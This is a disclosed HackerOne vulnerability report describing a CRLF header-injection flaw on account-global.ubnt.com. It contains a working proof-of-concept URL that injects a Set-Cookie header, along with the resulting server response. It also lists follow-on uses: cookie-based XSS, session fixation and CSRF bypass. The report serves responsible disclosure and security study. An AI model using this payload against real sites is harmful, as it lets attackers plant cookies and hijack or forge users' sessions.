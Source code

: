 # [account-global.ubnt.com] CRLF Injection

## Report Details
- **Report ID**: 145128
- **URL**: https://hackerone.com/reports/145128
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-06-16T09:52:03.180Z
- **Disclosed**: 2017-03-31T19:36:18.579Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
**PoC** (any browser except FireFox):
`http://account-global.ubnt.com/%3f%0dSet-Cookie:crlf=injection%3bdomain=.ubnt.com%3b`

**HTTP Response**:
```
HTTP/1.1 302 Found
Content-Type: text/html; charset=iso-8859-1
Date: Thu, 16 Jun 2016 09:59:15 GMT
Location: https://account-global.ubnt.com/index.html?         <= injection \r
Set-Cookie:crlf=injection;domain=.ubnt.com;
```

This vulnerability could be used in combination with others. For example, XSS via Cookie, session fixation or bypass Double-Submit Cookie CSRF protection.

## Attachments
No attachments
